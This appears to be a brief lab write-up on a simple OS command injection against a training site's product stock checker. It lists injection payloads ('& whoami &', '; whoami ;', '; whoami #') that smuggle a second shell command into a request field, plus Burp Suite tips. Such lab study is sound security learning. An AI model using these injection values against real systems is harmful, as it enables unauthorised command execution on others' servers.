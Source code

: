 # OS command injection, simple case

1. Command injection: product stock checker.
2. Goal: execute the `whoami` command to determine the name of the current user.

### Analysis
- Use Burp suite.
- `ctrl + u`: URL encode.

```bash
# (&, ;): it causes three separate commands to execute, one after another.
# (#): comment.

& whoami &
# or
; whoami ;
# or
; whoami #
# I found current username: peter-LS6mge.
```